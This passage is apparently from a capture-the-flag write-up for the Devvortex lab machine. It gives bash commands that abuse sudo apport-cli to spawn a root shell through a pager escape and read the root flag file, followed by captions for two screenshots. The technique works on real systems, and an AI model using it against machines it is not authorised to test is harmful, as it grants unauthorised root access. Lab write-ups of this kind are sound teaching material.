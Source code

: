 ```bash
# Creating a report file
sudo /usr/bin/apport-cli /usr/bin/less
# Using the report to elevate privileges
sudo /usr/bin/apport-cli -c /tmp/apport.less.bdgeopne.apport
# Spawing a bash shell via the pager
!/bin/bash
# Reading the root flag
cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/devvortex_root.png" alt=""><figcaption><p>Figure 9: Exploiting <code>apport-cli</code> and reading the root flag.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/devvortex_pager.png" alt=""><figcaption><p>Figure 10: Spawing a bash shell from within the pager.</p></figcaption></figure>
